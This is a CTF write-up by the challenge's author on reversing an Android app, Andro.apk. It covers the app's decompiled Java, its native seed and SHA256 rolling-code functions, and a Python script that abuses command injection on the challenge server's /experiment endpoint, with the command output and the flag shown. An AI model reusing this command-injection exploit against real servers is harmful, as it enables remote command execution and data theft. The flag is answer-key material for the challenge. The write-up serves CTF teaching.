


Hello! I made this Android RE CTF challenge you can find [here](https://github.com/chase1k/The_Andro_Experiment) on my github.

I highly suggest hosting the challenge and solving it yourself first, and/or following along with this.

So let's walk through the solution and thought process!

## Info

```yaml  {linenos=inline,linenostart=1}
Hey, it's Chase again.

I did some more research into some of the experiments Anthony was doing and found this website.

Something about an android application calling back to a server, so once again see if there is any information on the server about him?

https://the-andro-experiment.ctf.ritsec.club/ 
```

To start you are told that you have an android app that is calling back to a server. You are then greeted with this website...

> http://the-andro-experiment.ctf.ritsec.club


From either of the download links you can download `Andro.apk`. There is also, the `ping` link on the navbar that doesn't actually increment the `App Ping Number`. 

This number not incrementing by the website is a hint towards something the app is doing that allows that number to increment.

## What you're supposed to do

### `Running The App`

Right off the bat I would throw this in an emulator or push it onto an actual device if you have one.

> I'm using the Android Studio Emulator on a `Pixel_3a_API_34_extension_level_7_x86_64`

This challenge can be done with static reversing, but detonating someone random's "CTF Challenge" is always a good idea to gain more information.

When you first run the app you are greeted with this...


The first thought is a free flag in base64 but when you decode it you get

`“There is no real ending. It’s just the place where you stop the story.”
― Frank Herbert`

...this is just a Dune quote

What's important is the `Server Authenticated` toast that popped up, and the `Ping Server` button visible.

When the `Ping Server` button is clicked you get this back...


The ping worked!

You may receive an error message when running this or starting the app, if so, the server is most likely down.

This is all the real functionality of the app, but this will give context to the functionality of the app we see later.

### `Reversing The App`

Opening `Andro.apk` in [Jadx](https://github.com/skylot/jadx) shows us a lot...


These in the MainActivity are important:

- `seed` - seed value variable used in server authentication

- `generateSeed()` function to generate the seed value

- `performGetRequest()` function for sending a GET request to the server

- `rollCode()` function for reauthing with the server every request

- `sendBytesToServer()` function for sending data to the server

Heads up these function names arent entirely indicative of what the function actually does, so let's see what they do below.

In the main activity, we see...

```java {linenos=inline,hl_lines=["14-16"],linenostart=19}
public class MainActivity extends AppCompatActivity {
    static byte[] seed = new byte[0];
    ExecutorService executor = Executors.newFixedThreadPool(10);

    public native byte[] generateSeed();

    public native byte[] rollCode(byte[] bArr);

    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(C0570R.layout.activity_main);
        System.loadLibrary("andro"); 
        System.loadLibrary("ssl");
        System.loadLibrary("crypto"); 
        seed = generateSeed();
        performGetRequest();
        Button myButton = (Button) findViewById(C0570R.C0573id.button);
        myButton.setOnClickListener(new View.OnClickListener() { // from class: com.example.andro.MainActivity.1
            @Override // android.view.View.OnClickListener
            public void onClick(View v) {
                Log.d("rollcode", "OnClick" + Arrays.toString(MainActivity.seed));
                MainActivity.seed = MainActivity.this.rollCode(MainActivity.seed);
                MainActivity.this.sendBytesToServer(MainActivity.seed);
            }
        });
    }
```

You can see on the lines starting with `System.loadLibrary`.

There are some native libraries being imported, these contain the native functions referenced later.

Otherwise, on start, we generate our seed with `generateSeed()` and then run `performGetRequest()`.

Then we simply wait for the button to be clicked. If clicked, the seed value is logged, then we run the `rollcode()` function using that original seed. Then that seed is sent to the server with `sendBytesToServer()`.

### `performGetRequest()`

``` java {linenos=inline,linenostart=1}
private void performGetRequest() {
    byte[] result = new byte["SEED:".length() + 4];
    for (int i = 0; i < "SEED:".length(); i++) {
        result[i] = "SEED:".getBytes()[i];
    }
    for (int i2 = 0; i2 < seed.length; i2++) {
        result["SEED:".length() + i2] = seed[i2];
    }
    sendBytesToServer(result);
}
```

This function sends the seed, with the prefix of `SEED:` to the `sendBytesToServer()` function.

All the loops just convert the strings to bytes, otherwise, let's see what happens to the result after it's sent.

### `sendBytesToServer()`
``` java {linenos=inline,linenostart=1}
public void sendBytesToServer(final byte[] code) {
        this.executor.execute(new Runnable() { // from class: com.example.andro.MainActivity.2
            @Override // java.lang.Runnable
            public void run() {
                MediaType RAW = MediaType.get("application/octet-stream");
                OkHttpClient client = new OkHttpClient();
                RequestBody body = RequestBody.create(code, RAW);
                Request request = new Request.Builder().url("http://the-andro-experiment.ctf.ritsec.club/ping").post(body).build();
                try {
                    Response response = client.newCall(request).execute();
                    MainActivity.this.runOnUiThread(new Runnable() { // from class: com.example.andro.MainActivity.2.1
                        @Override // java.lang.Runnable
                        public void run() {
                            if (code[0] != 83) {
                                Toast.makeText(MainActivity.this, "Ping Sent", 0).show();
                            } else {
                                Toast.makeText(MainActivity.this, "Server Authenticated", 0).show();
                            }
                        }
                    });
                    if (response != null) {
                        response.close();
                    }
                } catch (IOException e) {
                    Log.d("MainErr", e.toString());
                    MainActivity.this.runOnUiThread(new Runnable() { // from class: com.example.andro.MainActivity.2.2
                        @Override // java.lang.Runnable
                        public void run() {
                            Toast.makeText(MainActivity.this, "Could Not Send", 0).show();
                        }
                    });
                }
            }
        });
    }
```

Going top down, we can see that the functions deals with some threading with Runnables.

This prepares the `OkHTTPClient` for the request we're sending. In the body we send the `code`(seed) that was generated before in the body. The request is sent to the website from before, but at `/ping`.

> http://the-andro-experiment.ctf.ritsec.club/ping

If you remember from before pinging the server on the website didn't work, but pinging it from the app did. This is because of OkHTTP we'll see that later too.

We then try running it. If successful we make the toast with `Ping Sent`. Unless the first bytes of code is `83` (which is the letter `S`). Then, we toast `Server Authenticated`.

If this was the `seed` from `performGetRequest` it means we authenticated. It is simply checking if we prefixes the seed with `SEED:`.

Both we saw before when we ran the app.

Otherwise, we catch any errors and clean up.

### `Reversing the Library`

If you remember the app imported some libraries and got the functions `generateSeed()` and `rollCode()` within the Java part of the app. Let's dig into those.

First, we have to open up the apk which contains other files inside (similar to a .zip) using [apktool](https://apktool.org/).

Running this on the apk will give us access to the libraries inside.

> $ apktool d Andro.apk -f    

Now we have these...

```sh
$ ls Andro/lib/x86_64
libandro.so  libcrypto.so  libssl.so
```

The libraries `libcrypto` and `libssl` aren't important for us here. The one with the challenge's namesake `libandro` is it.

Opening up `libandro` in [Binary Ninja](https://binary.ninja/free/) we can see the functions on the left side, clicking on the ones we saw in jadx may return this...


A lot of terrible JNI functions, these aren't important for the function implementation they're just for using them within the Java.

The actual implementation is usually right next to it.

Using `Pseudo C` the `generateSeed()` function looks like this...



As you can see when we generate the seed, we're actually just taking 4 bytes from `/dev/urandom`.

Inside of the `rollCode()` function, we see this...


It is a simple `SHA256` hash every times using that crypto library.

Referencing the Java code earlier...

```java {linenos=inline,linenostart=40}
public void onClick(View v) {
                Log.d("rollcode", "OnClick" + Arrays.toString(MainActivity.seed));
                MainActivity.seed = MainActivity.this.rollCode(MainActivity.seed);
                MainActivity.this.sendBytesToServer(MainActivity.seed);
            }
```

It seems like there is a rolling code system that rolls the previous `code`/`seed` with the server every time it sends the next ping.

Finally, if you looked further in the library you would've seen this piece of deprecated code...



This tells us about this unimplemented `command_server()` function, which uses `/experiment`.

From this URL we can see it takes a `command`. Lastly, the server seems to expect `okhttp` which is the reason why the app is able to ping the server and not the website.

Okhttp specifies the `User-Agent` on is packets as `Okhttp3`. But the server isn't that strict with checking it.

## The Finale 

Now we have everything we need to do to beat the challenge.

The methodology is that we need to send a packet, exploiting the command injection in `/experiment`. This packet must contain the `Okttp` User-Agent. Lastly, the payload need to contain a rolled(SHA256 hash) version of a `seed` or previous `code` on the server.

My original solution was using [Frida](https://frida.re/) to log the seed value from the app when ran. Then crafting a packet using that in Python. But there is a simpler way of spoofing the app with your own seed.

That version is below...

```py {linenos=inline,linenostart=1}
#!/usr/bin/env python3

import requests
import hashlib

def main():
    headers = {'User-Agent': 'okhttp'}
    seed = b'SEED:\x01\x01\x02\x03'

    URL0 = 'http://the-andro-experiment.ctf.ritsec.club/ping'
    response = requests.post(url=URL0, data=seed, headers=headers)

    command = input("Enter command: ")
    URL1='http://the-andro-experiment.ctf.ritsec.club/experiment?command=' + command
    payload = hashlib.sha256(b'\x01\x01\x02\x03').digest()

    response = requests.post(url=URL1, data=payload, headers=headers)
    print(response.text)


if __name__ == "__main__":
    main()
```

As you can see, we send the seed at first to `/ping` using `requests` with the `okhttp` User-Agent. This allows the user to then send the command given through user input to `URL1`. We hash the seed ourselves and replace the data of the request with that. Then we get our result.

```sh
$ ./simple_pwn.py
Enter command: ls
entrypoint.sh
flag.txt
main.py
requirements.txt
static
templates

$ ./simple_pwn.py
Enter command: cat flag.txt
...
```

<details>
<summary>Flag</summary>

`RS{th3_myst3ry_k33ps_unf0ld1ng}`

</details>

